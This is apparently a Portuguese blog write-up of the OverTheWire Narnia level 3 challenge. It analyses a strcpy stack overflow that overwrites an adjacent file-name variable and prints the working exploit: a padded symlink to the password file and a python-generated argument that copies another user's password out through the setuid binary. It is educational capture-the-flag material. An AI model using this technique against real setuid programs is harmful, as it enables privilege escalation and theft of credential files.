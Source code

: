 ```yaml
---
layout: post
title: Level 3 - Corrompendo variáveis locais na stack [OverTheWire CTF – Narnia]
date: 2017-01-07 15:55
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Narnia OverTheWire]
---
```

<ul>
    <li><a href="https://brerodrigues.github.io/ctfs/level-0-overthewire-ctf-narnia-write-up">Level 0</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-narnia-write-up">Level 1</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-2-overthewire-ctf-narnia-write-up">Level 2</a></li>
</ul>

Dando seguimento a série de write ups do <a href="http://overthewire.org/wargames/narnia/">Narnia</a>, chegou a hora de exploitar o level3.

```
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
```

Ele pega o primeiro argumento como o caminho para um arquivo e envia o conteúdo desse arquivo para <a href="https://pt.wikipedia.org/wiki//dev/null">/dev/null</a>? Não parece um programa muito útil.

Antes de qualquer análise, pensei que seria óbvio que, por ter permissões de narnia4, narnia3, de alguma forma, iria ler o conteúdo de <strong>/etc/narnia_pass/narnia4</strong> e nos passar ao invés de jogar em /dev/null e não ajudar ninguém.

Mas como o código fonte está bem perto de nós, vamos observa-lo e descobrir se há alguma forma de explorar esta habilidade de leitura de arquivos.

<script src="https://gist.github.com/anonymous/2978f3a6b1db2a77494d01c58de34384.js"></script>

Nada complexo. Mas vamos por partes.

```
int  ifd,  ofd;
char ofile[16] = /dev/null;
char ifile[32];
char buf[32];
```

As duas primeiras variáveis do tipo inteiro declaradas em main são <strong>ifd</strong> e <strong>ofd</strong>. Como o sugestivo nome indica, servem como <a href="https://en.wikipedia.org/wiki/File_descriptor">file descriptors</a> tanto para o arquivo de entrada, quanto para o de saída.

Na segunda linha vemos um vetor de caracteres chamado <strong>o</strong><del datetime="2017-01-07T14:35:02+00:00">utput</del><strong>file</strong> que guarda o valor "/dev/null". É bem óbvio a razão para a existência do mesmo.

Na terceira, <strong>i</strong><del datetime="2017-01-07T14:35:02+00:00">nput</del><strong>file</strong> é mais um vetor de caracteres, com espaço para 32 dos mesmos, que não é inicializado. É nessa variável que mais tarde o código guardará o nome do arquivo de entrada, ou seja, nosso argumento para o programa.

A sexta e última variável declarada na última linha do código acima é outro vetor de caracteres chamado <strong>buf</strong>. Ele vai ser usado para guardar o conteúdo do arquivo de entrada e depois escrever este conteúdo no arquivo de saída.

Logo depois das declarações de variáveis, há um simples if que verifica se algum argumento foi passado.

```
    if(argc != 2){
        printf(usage, %s file, will send contents of file 2 /dev/null\n,argv[0]);
        exit(-1);
    }
```

A parte seguinte do código usa a função amiga dos buffer overflow e inimiga dos dados guardados na stack, <strong>strcpy</strong>, que sem nenhum cuidado vai copiar argv[1] direto para ifile. E, depois de fazer essa operação perigosa, usa os file descriptors para checar se há permissão de escrita e leitura em ofile, e leitura em ifile.

```
     /* open files */
     strcpy(ifile, argv[1]);
     if((ofd = open(ofile,O_RDWR)) 0 ){
         printf(error opening %s\n, ofile);
         exit(-1);
     }
     if((ifd = open(ifile, O_RDONLY)) 0 ){
         printf(error opening %s\n, ifile);
         exit(-1);
     }
 ```

Para finalizar, a última parte da função lê o ifile e copia o conteúdo para buf e logo depois escreve de buf para ofile. Fechando os arquivos logo depois.

```
    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf(copied contents of %s to a safer place... (%s)\n,ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
    }
 ```

Depois de compreender todo o código, pareceu que para ganhar a flag bastava estourar ifile passando um argumento do mal que executasse /bin/sh assim como foi feito no <a href="https://brerodrigues.github.io/ctfs/level-2-overthewire-ctf-narnia-write-up">último chall</a>. Sei bem que não faria sentido que dois challs seguidos tivessem a mesma resolução, <a href="https://brerodrigues.github.io/category/CTFs">mas já aconteceu coisa parecida antes</a>, então não custava tentar.

Mas essa ideia logo se mostrou impossível assim que mandei um checksec com o binário carregado no gdb aprimorado pelo peda.

```
narnia3@melinda:/tmp/2017$ gdb -q /narnia/narnia3
Reading symbols from /narnia/narnia3...(no debugging symbols found)...done.
(gdb) source /usr/local/peda/peda.py
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

O bit NX, que deriva da expressão em inglês No eXecute, é uma tecnologia usada em alguns processadores e sistemas operacionais que separa de modo rígido as áreas de memória que podem ser usadas para execução de código daquelas que só podem servir para armazenar dados. Ele é usada com propósitos de segurança.

Uma área da memória que esteja marcada com o atributo NX pode ser usada somente para guardar dados, então quaisquer instruções que estejam nela não serão executadas. A técnica serve para prevenir certos tipos de ataques feitos por malwares, quando o programa malicioso insere instruções na área de dados de outro programa, tentando que elas sejam executadas a partir de lá. Esse tipo de ataque é chamado de buffer overflow.

<a href="https://pt.wikipedia.org/wiki/Bit_NX">https://pt.wikipedia.org/wiki/Bit_NX</a></blockquote>

Isso significa que explorar o espaço da stack para guardar um shellcode e tentar executa-lo não irá funcionar.

E agora?

Em outros write ups já falei sobre a famigerada stack. Se você não faz ideia do que seja, recomendo que leia o write up do <a href="https://brerodrigues.github.io/ctfs/level-0-overthewire-ctf-narnia-write-up">level 0</a> do próprio narnia que acredito ter conteúdo suficiente para que você me acompanhe. Mas, como sempre faço, vou deixando links pelo meio do post e te dando a ideia de usar o <a href="https://duckduckgo.com/">Google</a> para ir tirando dúvidas.

No ínicio do processo, a função main vai ser executada e jogar suas variáveis na stack:

<img class="size-full wp-image-1410" src="https://image.ibb.co/ceNeHJ/narnia3_1.png" alt="Um lindo desenho." width="147" height="147" />

Como sabemos, as variáveis não inicializadas apenas terão espaço reservado, por isso fiz referência a elas pelo nome e, no caso de ofile, usei seu valor "/dev/null".

E para não ficar apenas com essa abstração horrível em forma de desenho mais horrível ainda, te recomendo <a href="https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames">este link</a> para que entendas bem melhor do que estou e continuarei falando.

Acredito que você se lembre de quando falei de strcpy. Na 22º linha do código do chall, seja lá qual for o tamanho do argumento que passarmos, ele será copiado para o espaço reservado para ifile. E se este argumento tiver mais de 32 caracteres, os dados irão invadir o espaço de ofile (e o que mais vinher depois, como ofd, ifd...).

Sabendo disso você até pode resolver o chall sozinho. Vá lá e só volte aqui para comparar soluções.

Tendo o poder de corromper o valor de ofile guardado no stack, a primeira ideia é a de modificar esse valor para um arquivo válido e sob nosso controle.

Tomei a liberdade fazer uma pequena alteração do código do chall só para ver isso acontecendo de forma mais prática, observe as inserções na linha 21 e 27:

<script src="https://gist.github.com/anonymous/b78a2c589773cd2c2db5034257e38441.js"></script>

Agora compilando e executando:

```
suamae@yourbox:~/tmp$ gcc narnia3.c -o narnia3
suamae@yourbox:~/tmp$ ./narnia3 `python -c 'print B*32 + ownded'`
Antes: /dev/null
error opening BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBownded
Depois: ownded
```

Exatamente o comportamento esperado.

Exploitation time!

Criei uma pasta em /tmp e dentro dela criei um link simbólico para /etc/narnia_pass/narnia4. O nome desse link era formado pelos 32 B's necessários para preencher todo o espaço de ifile + flag (que é o nome do arquivo que também criei para que o processo escrevesse a flag).

```
narnia3@melinda:~$ cd /narnia
narnia3@melinda:/narnia$ mkdir /tmp/rddi
narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/rddi/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBflag
narnia3@melinda:/narnia$ cd /tmp/rddi
narnia3@melinda:/tmp/rddi$ touch flag
narnia3@melinda:/tmp/rddi$ /narnia/narnia3 `python -c 'print B*32 + flag'`
copied contents of BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBflag to a safer place... (flag)
narnia3@melinda:/tmp/rddi$ cat flag
c2ljaw==
▒▒▒▒▒4▒▒▒▒_▒▒}0,narnia3@melinda:/tmp/rddi$
```
